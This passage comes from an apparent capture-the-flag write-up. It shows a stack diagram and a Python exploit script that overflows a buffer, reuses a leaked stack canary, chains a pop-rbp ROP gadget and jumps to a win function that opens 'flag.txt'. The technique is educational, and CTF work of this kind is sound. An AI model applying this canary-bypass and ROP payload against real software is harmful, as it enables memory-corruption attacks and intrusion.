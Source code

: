 0x1233 will work nicely.  Here is what our payload will look like on the stack in getFeedback().

```
            |-----------------|
$rbp + 0x20 | "flag.txt" buf  |
$rbp + 0x18 | ret addr 0x12ac |     jump to win address
$rbp + 0x10 |     new RBP     |     rbp = buf addr + 0x4a
$rbp + 0x8  | ret addr 0x1233 |     rop gadget (pop rbp; ret)
$rbp        |   "BBBBBBBB"    |     frame ptr
$rbp - 0x8  |  stack canary   |
$rbp - 0x10 |   "AAAAAAAA"    |
            |-----------------|
```

When fopen is called the stack pointer will be just below the "flag.txt" buffer.  Add the last few lines to our exploit.

```python
# 0x12ac
win_addr = u(main_addr.ljust(8, b"\x00")) - 0x19b
# 0x1233    pop rbp
rop_addr = u(main_addr.ljust(8, b"\x00")) - 0x214
payload = b"A" * 10
payload += p64(stack_canary)

payload += b"B" * 8
payload += p64(rop_addr)

new_frame_ptr = stack_addr + 90
payload += p64(new_frame_ptr)
payload += p64(win_addr)

payload += b"flag.txt\x00"

with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)
```

Last thing to do is run the exploit.

![exploit](./screenshots/exploit.png)
